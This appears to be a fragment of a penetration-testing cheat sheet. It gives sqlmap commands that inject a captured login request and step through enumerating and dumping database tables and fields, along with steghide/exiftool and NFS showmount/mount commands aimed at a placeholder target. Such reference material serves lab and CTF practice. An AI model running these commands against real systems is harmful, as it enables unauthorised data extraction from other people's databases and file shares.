 ```
# login.req is a text file with a login POST intercepted by Burp
sqlmap -r login.req -p {POST_PARAMETER} --batch
```

<a name="Navigation"></a>
### Navigation

```
sqlmap -r login.req -p u --batch --current-db
sqlmap -r login.req -p u --batch -D {DB} --tables
sqlmap -r login.req -p u --batch -D {DB} -T {TABLE} --columns
sqlmap -r login.req -p u --batch -D {DB} -T {TABLE} -C {FIELD_1},{FIELD_2},{FIELD_3} --dump
```

<a name="Steganography"></a>
# Steganography

<a name="Exiftool"></a>
### Exiftool

```
exiftool {FILE}
```

<a name="Steghide"></a>
### Steghide

```
steghide extract -sF {FILE}
```

<a name="NFS"></a>
## NFS

<a name="ListMountPoints"></a>
### List Mount Points

```
showmount -e {TARGET}
```

<a name="Mount"></a>
### Mount

```
mount {TARGET}:{MOUNT_POINT} {LOCAL_PATH}
```

<a name="Umount"></a>
### Umount

```
umount {LOCAL_PATH}
```
